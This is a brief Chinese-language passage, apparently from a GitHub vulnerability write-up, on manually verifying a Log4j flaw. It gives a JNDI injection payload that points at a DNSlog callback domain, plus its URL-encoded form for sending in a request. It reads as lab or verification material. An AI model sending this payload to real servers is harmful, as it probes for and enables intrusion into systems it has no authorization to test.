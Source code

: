 #### 验证漏洞可利用性

##### 手动验证

访问 DNSlog，手动获取专属随机子域名

![Alt text](img/dns.png)

将 payload`${jndi:ldap://z4ylbw.dnslog.cn}`使用 url 编码得到：`%24%7Bjndi%3Aldap%3A%2F%2Fz4ylbw.dnslog.cn%7D`

访问

![Alt text](img/url2.png)

或构造 GET 请求

![Alt text](img/log.png)
